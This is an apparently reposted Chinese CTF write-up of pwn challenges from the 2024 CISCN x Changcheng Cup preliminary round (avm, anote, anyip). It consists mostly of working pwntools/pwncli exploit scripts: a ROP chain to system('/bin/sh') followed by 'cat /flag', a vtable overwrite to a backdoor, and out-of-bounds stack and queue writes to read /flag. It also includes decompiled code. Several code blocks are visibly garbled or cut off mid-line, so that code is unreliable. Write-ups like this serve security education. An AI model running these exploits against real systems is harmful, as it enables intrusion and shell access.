

# [CTF] 2024 ciscn x 长城杯 初赛 PWN WP

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1991879
- 抓取时间: 2026-11-01T22:17:55

## Ciscn 2025 初赛 PWN

### avm

`index`只检查最低一位造成的越界读写，读写是栈上的数据，因此`ROP`即可
读取`main()`函数的返回地址，计算偏移得到`system("/bin/sh")`
由于程序不能输入数字，只能自己构造，非常恶心

```
#!/usr/bin/env python3
from pwncli import *

context.terminal = ["tmux", "splitw", "-h", "-l", "122"]
local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

if local_flag == "remote":
    addr = '8.147.132.32 16814'
    host = addr.split(' ')
    gift.io = remote(host[0], host[1])
    gift.remote = True
else:
    gift.io = process('./pwn')
    if local_flag == "nodbg":
        gift.remote = True
init_x64_context(gift.io, gift)
libc = load_libc()
gift.elf = ELF('./pwn')

payload = b''

def add(reg1, reg2, reg3):
    global payload
    payload += p32_ex((1  0:
            if shift_value = 0:
                shift_value = 1  1
add(2, 1, 1)  # reg[2] -> 2
mul(4, 2, 2)  # reg[4] -> 4
add(3, 1, 2)  # reg[3] -> 3
add(5, 2, 3)  # reg[5] -> 5
add(6, 3, 3)  # reg[6] -> 6

# lea(7, 0, 0x108)  # reg[7] -> canary
lea(0x10, 0, 0xD38)  # reg[0x10] -> libc + 0x236b10
lea(0x11, 0, 0x100)

CG.set_find_area(False, True)

for i in cal(0x655):
    sub(0x1D, 0x1D, 0x1D)
    add(0x1D, i, 0x1D)
    add(0x1E, 0x1E, 1)
    shl(0x1E, 0x1E, 0x1D)

# add(0x1E, 0x1E, 1)
add(0x1C, 0x10, 0x1E)
mov(0x1C, 0, 0x118)  # ret + 0x0
add(0x1C, 0x1C, 1)
mov(0x1C, 0, 0x128)  # ret + 0x0

sub(0x1E, 0x1E, 0x1E)
for i in cal(0x26FE0):
    sub(0x1D, 0x1D, 0x1D)
    add(0x1D, i, 0x1D)
    add(0x1E, 0x1E, 1)
    shl(0x1E, 0x1E, 0x1D)

# add(0x1E, 0x1E, 1)
add(0x1C, 0x10, 0x1E)
mov(0x1C, 0, 0x130)  # ret + 0x10

sub(0x1E, 0x1E, 0x1E)
for i in cal(0x1AE8E8):
    sub(0x1D, 0x1D, 0x1D)
    add(0x1D, i, 0x1D)
    add(0x1E, 0x1E, 1)
    shl(0x1E, 0x1E, 0x1D)

# add(0x1E, 0x1E, 1)
add(0x1C, 0x10, 0x1E)
mov(0x1C, 0, 0x120)  # ret + 0x8

sa(b'opcode:', payload)

sl(b'cat /flag')
ia()
```

### anote

非常简单的越界菜单题，`show`拿到堆地址，修改虚表为后门即可

```
#!/usr/bin/env python3

from pwncli import *

context.terminal = ["tmux", "splitw", "-h", "-l", "122"]

local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

if local_flag == "remote":

    addr = '47.94.95.135 32829'

    host = addr.split(' ')

    gift.io = remote(host[0], host[1])

    gift.remote = True

else:

    gift.io = process('./note')

    if local_flag == "nodbg":

        gift.remote = True

init_x86_context(gift.io, gift)

libc = load_libc()

gift.elf = ELF('./note')

cmd = '''

    b *

    c

'''

launch_gdb(cmd)

input_after_this = b'Choice>>'

def add():

    sla(input_after_this, b'1')

def edit(idx, data):

    sla(input_after_this, b'3')

    sla(b'index', str(idx))

    sla(b'len', str(32))

    sla(b'content', data)

def show(idx):

    sla(input_after_this, b'2')

    sla(b'index', str(idx))

add()

add()

show(0)

ru(b'0x')

gift = int(ru(b'\n', drop=True), 16) + 8

log_address_ex2(gift)

edit(0, p32_ex(0x80489CE) * 4)

edit(-8, p32_ex(gift))

ia()
```

### anyip

比赛时一直卡在二叉树的构建上，比赛后发现就是个中序遍历生成二叉树罢了，唉，太菜了
如果我是二叉树之神的话……………………

### 逆向

程序开放了`9999`端口，需要发送特定格式的数据
首先检验了几个`byte`位

```
__int64 __fastcall sub_3948(struct_v4 *a1, int a2)
{
  if ( BYTE5(a1->qword8) == 7 )
  {
    if ( BYTE4(a1->qword8) == 1 )
    {
      return 1LL;
    }
    else
    {
      sub_39B8(a2, (__int64)a1, 129, 7);
      return 0LL;
    }
  }
  else
  {
    sub_39B8(a2, (__int64)a1, 129, 8);
    return 0LL;
  }
}
```

然后，前4字节是`op`位，根据`op`进行不同的操作

```
ssize_t __fastcall sub_3424(struct_v4 *a1, unsigned int a2)
{
  int op_low; // eax
  char v4; // [rsp+1Fh] [rbp-1h]
  op_low = LOWORD(a1->op);
  if ( op_low == 'DD' )
  {
    v4 = sub_3248(BYTE3(a1->op), (const char *)a1->buf);// queue
    goto LABEL_12;
  }
  if ( LOWORD(a1->op) op), a1->buf, *(_QWORD *)&a1->len);// tree
      goto LABEL_12;
    }
    if ( LOWORD(a1->op) op), a1->buf, *(_QWORD *)&a1->len);// stack
        goto LABEL_12;
      }
    }
  }
  sub_39B8(a2, (__int64)a1, 129, 3);
LABEL_12:
  if ( v4 )
    return sub_39B8(a2, (__int64)a1, 0, 0);
  else
    return sub_39B8(a2, (__int64)a1, 129, 3);
}
```

`0x1111`是打印log，更新log
`0x2222`是一个`stack`
`0x3333`是一个二叉树
`0x4444`是一个`queue`

首先看`stack`

```
__int64 __fastcall sub_3108(int a1, const char *a2)
{
  int v2; // edx
  int v3; // eax
  __int64 v4; // rax
  _BYTE v6[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+58h] [rbp-18h]

  v7 = __readfsqword(0x28u);
  if ( a1 == 1 )
  {
    if ( stack2_ptr - dword_90CC == 10 )
    {
      return 0LL;
    }
    else
    {
      v2 = atoi(a2);
      v3 = stack2_ptr++;
      stack2[v3] = v2;
      return 1LL;
    }
  }
  else if ( a1 == 2 )
  {
    int2str(v6, stack2[--stack2_ptr]);
    v4 = std::string::c_str(v6);
    log(v4);
    std::string::~string(v6);
    return 1LL;
  }
  else
  {
    return 0LL;
  }
}
```

就一个`pop`和一个`push`，其中对位置的判断只有`if ( stack2_ptr - dword_90CC == 10 )`这一条，因此有越界的读写

再看到`queue`

```
__int64 __fastcall sub_3248(int a1, const char *a2)
{
  __int64 v2; // rax
  int v4; // [rsp+2Ch] [rbp-44h]
  unsigned int v5; // [rsp+2Ch] [rbp-44h]
  _BYTE v6[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+58h] [rbp-18h]
  v7 = __readfsqword(0x28u);
  if ( a1 == 1 )
  {
    v4 = atoi(a2);
    if ( (stack4_head + 1) % 10 == stack4_tail )
    {
      return 0LL;
    }
    else
    {
      stack4[stack4_head] = v4;
      stack4_head = (stack4_head + 1) % 10;     // store int
      return 1LL;
    }
  }
  else if ( a1 == 2 )
  {
    if ( stack4_tail == stack4_head )
    {
      return 0LL;
    }
    else
    {
      v5 = stack4[stack4_tail];
      stack4_tail = (stack4_tail + 1) % 10;
      int2str(v6, v5);
      v2 = std::string::c_str(v6);
      log(v2);
      std::string::~string(v6);
      return 1LL;
    }
  }
  else
  {
    return 0LL;
  }
}
```

也是有简单的`dequeue`和`enqueue`
同样，对`head`的判断只有`if ( (stack4_head + 1) % 10 == stack4_tail )`，也是任意写

最后看到二叉树


```
__int64 __fastcall sub_2969(int a1, char *a2)
{
  char *v2; // rbx
  unsigned int v3; // ebx
  __int64 v5; // rax
  char v7; // [rsp+27h] [rbp-E9h] BYREF
  char *node; // [rsp+28h] [rbp-E8h] BYREF
  _BYTE v9[80]; // [rsp+30h] [rbp-E0h] BYREF
  _BYTE v10[80]; // [rsp+80h] [rbp-90h] BYREF
  _BYTE v11[40]; // [rsp+D0h] [rbp-40h] BYREF
  unsigned __int64 v12; // [rsp+F8h] [rbp-18h]

  v12 = __readfsqword(0x28u);
  sub_41A6(v9);                                 // queue
  sub_42AC(v10);
  node = (char *)tree;
  std::allocator::allocator(&v7);
  sub_431E(v11, &unk_6008, &v7);
  std::allocator::~allocator(&v7);
  if ( a1 == 3 )
  {
    tree = (__int64)new_tree(*a2);
    v3 = 1;
  }
  else
  {
    if ( a1 > 3 )
    {
LABEL_25:
      v3 = 0;
      goto LABEL_26;
    }
    if ( a1 == 1 )
    {
      sub_43E2((__int64)v9, (__int64)&node);
      while ( (unsigned __int8)sub_440C((__int64)v9) != 1 )// is_empty
      {
        node = *(char **)sub_442A(v9);          // dequeue
        if ( !*((_QWORD *)node + 1) || !*((_QWORD *)node + 2) )
          break;
        sub_43E2((__int64)v9, (__int64)(node + 8));// enqueue
        sub_43E2((__int64)v9, (__int64)(node + 16));
        sub_4448((__int64)v9);                  // pop
      }
      v2 = node;
      if ( *((_QWORD *)node + 1) )
        *((_QWORD *)v2 + 2) = new_tree(*a2);
      else
        *((_QWORD *)v2 + 1) = new_tree(*a2);
      v3 = 1;
    }
    else
    {
      if ( a1 != 2 )
        goto LABEL_25;
      while ( node || (unsigned __int8)sub_4468((__int64)v10) != 1 )// is_empty
      {
        if ( node )
        {
          sub_4486(v10, &node);
          node = (char *)*((_QWORD *)node + 1);
        }
        else
        {
          node = *(char **)sub_44B0((__int64)v10);// pop
          std::string::operator+=(v11, (unsigned int)*node);
          sub_44CE(v10);                        // pop
          node = (char *)*((__QWORD *)node + 2);
        }
      }
      v5 = std::string::c_str(v11);
      log(v5);
      v3 = 1;
    }
  }
LABEL_26:
  std::string::~string(v11);
  sub_3F48(v10);
  sub_3F28(v9);
  return v3;
}
```

有一个初始化，一个`insert`和一个遍历

这里上面的`v9`是`queue`，`v10`是`stack`

所以对应的，`insert`是层序插入，遍历输出是中序输出（参考非递归实现的中序遍历）

`0x1111`是`log`相关的功能

```
__int64 __fastcall sub_2D03(unsigned int a1, __int64 a2)
{
  __int64 v2; // rdx
  __int64 v4; // rax
  unsigned int v5; // ebx
  __int64 v6; // rax
  unsigned int v7; // ebx
  int v9; // [rsp+14h] [rbp-46Ch]
  time_t timer; // [rsp+18h] [rbp-468h] BYREF
  _QWORD v11[4]; // [rsp+20h] [rbp-460h] BYREF
  _BYTE v12[80]; // [rsp+40h] [rbp-440h] BYREF
  _BYTE v13[32]; // [rsp+90h] [rbp-3F0h] BYREF
  _BYTE v14[32]; // [rsp+B0h] [rbp-3D0h] BYREF
  _BYTE v15[16]; // [rsp+D0h] [rbp-3B0h] BYREF
  __int64 v16; // [rsp+E0h] [rbp-3A0h] BYREF
  _BYTE v17[520]; // [rsp+260h] [rbp-220h] BYREF
  unsigned __int64 v18; // [rsp+468h] [rbp-18h]

  v18 = __readfsqword(0x28u);
  v9 = *(unsigned __int8 *)(a2 + 3);
  v2 = *(_QWORD *)(a2 + 24);
  v11[2] = *(_QWORD *)(a2 + 16);
  v11[3] = v2;
  std::ifstream::basic_ifstream(v17);
  sub_42AC(v12);
  v11[0] = tree;
  v11[1] = 0LL;
  std::allocator::allocator(&timer);
  sub_431E(v13, &unk_6008, &timer);
  std::allocator::~allocator(&timer);
  std::basic_stringstream,std::allocator>::basic_stringstream(v15);

  if ( v9 == 1 )
  {
    time(&timer);
    memset(s, 0, sizeof(s));
    sprintf(s, "%ld.log", timer);
    log("----- log -----");
    v7 = 1;
  }
  else if ( v9 == 2 )
  {
    while ( v11[0] || (unsigned __int8)sub_4468(v12) != 1 )// is_empty
    {
      if ( v11[0] )
      {
        sub_4486(v12, v11);                     // stack
        v11[0] = *(_QWORD *)(v11[0] + 8LL);
      }
      else
      {
        v11[0] = *(_QWORD *)sub_44B0(v12);      // pop
        std::string::operator+=(v13, (unsigned int)*(char *)v11[0]);
        sub_44CE(v12);                          // pop
        v11[0] = *(_QWORD *)(v11[0] + 16LL);
      }
    }
    if ( !(unsigned int)std::string::compare(v13, "SomeIpfun") )
    {
      std::ifstream::open(v17, s, 8LL);
      v4 = std::ifstream::rdbuf(v17);
      std::ostream::operator,std::allocator>::str(v14, v15);
      std::ifstream::close(v17);
      v5 = std::string::length(v14);
      v6 = std::string::c_str(v14);
      sub_3A75(a1, a2, v6, v5);
      std::string::~string(v14);
    }
    v7 = 1;
  }
  else
  {
    v7 = 0;
  }
  std::basic_stringstream,std::allocator>::~basic_stringstream(v15);
  std::string::~string(v13);
  sub_3F48(v12);
  std::ifstream::~ifstream(v17);
  return v7;
}
```

`op1`是更新`log`文件名

`op2`是首先检测`tree`的遍历结果是不是`"SomeIpfun"`，如果是的话就打开`log`并输出

## 4> Hack

首先，程序实现的`stack`和`queue`都是在`bss`段，而`log`的文件名也是在`bss`段，因此我们可以使用越界读写修改文件名为`/flag`，直接输出flag

```
#!/usr/bin/env python3
from pwncli import *
import tree

context.terminal = ["tmux", "splitw", "-h", "-l", "122"]
local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

cmd = '''
    brva 0x3B4F
    # log
    #brva 0x31CB
    # stack pop
    brva 0x319B
    # stack push
    brva 0x32FD
    # queue push

    set $stack_ptr = $rebase(0x90C8)
    set $stack_addr = $rebase(0x90A0)
    c
'''

if local_flag == "remote":
    addr = ''
    host = addr.split(' ')
    gift.io = remote(host[0], host[1])
    gift.remote = True
else:
    # gdb.debug('./pwn', cmd)
    # p = process('./pwn')
    if local_flag != "nodbg":
        gdb.attach(p, cmd)
    # pause()
    sleep(2)
    gift.io = remote('127.0.0.1', 9999)
    if local_flag == "nodbg":
        gift.remote = True
init_x64_context(gift.io, gift)
libc = load_libc('/lib/x86_64-linux-gnu/libc.so.6')
gift.elf = ELF('./pwn')
# launch_gdb(cmd)

def tree_insert(data):
    payload = flat(
        {
            0x0: 0x1003333,
            0x8: 0x70100000000,
            0x10: data,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def tree_initial(data):
    payload = flat(
        {
            0x0: 0x3003333,
            0x8: 0x70100000000,
            0x10: data,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def tree_traversal():
    payload = flat(
        {
            0x0: 0x2003333,
            0x8: 0x70100000000,
            0x10: 0,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def stack_pop():
    payload = flat(
        {
            0x0: 0x2002222,
            0x8: 0x70100000000,
            0x10: 0,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def stack_push(data):
    payload = flat(
        {
            0x0: 0x1002222,
            0x8: 0x70100000000,
            0x10: data,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def queue_pop():
    payload = flat(
        {
            0x0: 0x2004444,
            0x8: 0x70100000000,
            0x10: 0,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def queue_push(data):
    payload = flat(
        {
            0x0: 0x1004444,
            0x8: 0x70100000000,
            0x10: data,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

def log_tree():
    payload = flat(
        {
            0x0: 0x2001111,
            0x8: 0x70100000000,
            0x10: 0,
        },
        filler=b'\x00',
    )
    s(payload)
    return r()

str_ = tree.generate(b"SomeIpfun")
tree_initial(str_[0])
for i in range(1, len(str_)):
    tree_insert(str_[i])

def leak():
    for i in range(0x98 // 0x4):
        stack_pop()

    data = log_tree().decode('latin-1').split('\n')
    # print(data)
    # log_ex(f"{int(data[-3]):#x}{int(data[-2]) & ((1
```

## 二叉树生成

```
class TreeNode:
    def __init__(self, value: int):
        self.value = value
        self.left = None
        self.right = None

class BinaryTree:
    def __init__(self):
        self.root = None

    def insert(self, value: int):
        if not self.root:
            self.root = TreeNode(value)
            return

        queue = [self.root]
        while queue:
            node = queue.pop(0)
```


```
            if not node.left or not node.right:
                break
            queue.append(node.left)
            queue.append(node.right)

        if node.left:
            node.right = TreeNode(value)
        else:
            node.left = TreeNode(value)

    def in_order(self) -> list[int]:
        if not self.root:
            return b""
        stack = []
        node = self.root
        result = []
        while(node or stack):
            if node:
                stack.append(node)
                node = node.left
            else:
                node = stack.pop()
                result.append(node.value)
                node = node.right
        return result

def generate(str: bytes):
    tree = BinaryTree() 
    for i in range(len(str)):
        tree.insert(i)
    order = zip(tree.in_order(), [bytes([byte]) for byte in str])
    order = sorted(order, key=lambda x: x[0])
    return(([x[1] for x in order]))
```



`image-20241217092758164.png` (109.76 KB, 下载次数: 0)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0NDE4Mnw4MDFhYzgxMXwxNzkzNTcxNDczfDE2ODA4NnwxOTkxODc5&nothumb=yes)

2024-12-17 09:35 上传

### 赛后总结

总之就是十分的菜，没看出是个中序遍历，有空再把剩下的题都复现了
